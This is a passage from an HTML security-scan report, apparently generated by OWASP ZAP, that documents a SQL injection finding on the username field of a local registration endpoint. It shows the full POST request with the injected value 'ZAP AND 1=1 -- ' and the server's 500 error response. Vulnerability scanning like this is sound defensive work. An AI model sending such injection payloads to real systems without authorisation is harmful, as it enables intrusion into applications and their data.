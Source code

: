 <p>The parameter value being modified was NOT stripped from the HTML output for the purposes of the comparison.</p>

<p>Data was returned for the original parameter.</p>

<p>The vulnerability was detected by successfully restricting the data originally returned, by manipulating the parameter.</p>
 </td>
	</tr>
	<tr>
		<th scope="row">Request</th>
		<td><details open="open">
				<summary>Request line and header section (317 bytes)</summary>
				
				<pre><code>POST http://localhost:8000/register HTTP/1.1
host: localhost:8000
user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
pragma: no-cache
cache-control: no-cache
content-type: application/x-www-form-urlencoded
referer: http://localhost:8000/register
content-length: 79

</code></pre>
				
				
			</details> <details class="request-body" open="open">
				<summary>Request body (79 bytes)</summary>
				
				<pre><code>username=ZAP+AND+1%3D1+--+&amp;password=ZAP&amp;birthdate=2024-11-22&amp;role=administrator</code></pre>
				
				
			</details></td>
	</tr>
	<tr>
		<th scope="row">Response</th>
		<td><details open="open">
				<summary>Status line and header section (159 bytes)</summary>
				
				<pre><code>HTTP/1.1 500 Internal Server Error
content-type: text/plain; charset=UTF-8
vary: Accept-Encoding
content-length: 25
date: Fri, 22 Nov 2024 15:55:05 GMT

</code></pre>
				
				
			</details> <details class="response-body" open="open">
				<summary>Response body (25 bytes)</summary>
				
				<pre><code>Error during registration</code></pre>
				
				
			</details></td>
	</tr>
	<tr>
		<th scope="row">Parameter</th>
		<td><pre><code>username</code></pre></td>
	</tr>
	<tr>
		<th scope="row">Attack</th>
		<td><pre><code>ZAP AND 1=1 -- </code></pre></td>
	</tr>
	